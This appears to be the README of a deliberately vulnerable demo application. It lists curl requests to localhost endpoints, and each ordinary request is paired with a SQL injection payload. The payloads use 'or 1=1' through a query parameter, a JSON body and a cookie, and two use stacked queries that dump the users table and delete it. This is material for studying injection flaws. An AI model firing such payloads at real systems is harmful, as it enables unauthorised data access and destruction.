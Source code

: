 # vulnerable

## GET request - Get list of users - filter in query param
```bash
curl http://localhost:8080/vun/sql/example1/api/users?name=michal
curl http://localhost:8080/vun/sql/example1/api/users?name=michal%27%20or%201=1%20--%20-
```

## POST request - Get list of users - filter in body
```bash
curl -X POST http://localhost:8080/vun/sql/example2/api/users -H "Content-Type: application/json" -d "{\"filter\": \"michal\"}"  
curl -X POST http://localhost:8080/vun/sql/example2/api/users -H "Content-Type: application/json" -d "{\"filter\": \"michal' or 1=1 -- -\"}"  
```

## Post request - Create new User
```bash
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker\"}"  
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); SELECT * FROM users; -- - \"}"  
curl -X POST http://localhost:8080/vun/sql/example3/api/users -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); DELETE FROM users; -- - \"}"  
```

## GET request - Get list of users - filter in cookie
```bash
curl http://localhost:8080/vun/sql/example4/api/users --cookie "name=michal"
curl http://localhost:8080/vun/sql/example4/api/users --cookie "name=michal'%20or%201=1%20--%20-"
```